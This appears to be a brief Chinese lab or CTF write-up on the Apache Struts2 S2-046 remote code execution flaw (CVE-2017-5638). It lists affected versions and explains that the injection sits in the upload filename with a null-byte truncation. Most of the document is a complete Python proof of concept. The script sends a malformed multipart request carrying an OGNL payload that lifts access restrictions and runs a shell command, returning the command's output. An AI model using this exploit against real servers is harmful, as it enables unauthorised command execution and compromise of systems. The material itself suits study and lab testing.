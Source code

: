 # S2-046 远程代码执行漏洞（CVE-2017-5638）


影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

与s2-045类似，但是利用点在文件上传的filename值位置，并需要使用\x00截断。

由于需要发送畸形数据包，我们简单使用原生socket编写payload：
## poc
```python
import socket

q = b'''------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='env').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}\x00b"
Content-Type: text/plain

foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--'''.replace(b'\n', b'\r\n')
p = b'''POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Length: %d

'''.replace(b'\n', b'\r\n') % (len(q), )

with socket.create_connection(('node3.buuoj.cn', '26885'), timeout=5) as conn:
    conn.send(p + q)
    print(conn.recv(10240).decode())

```


## 参考
>https://github.com/vulhub/vulhub/blob/master/struts2/s2-046/README.zh-cn.md
>https://xz.aliyun.com/t/221
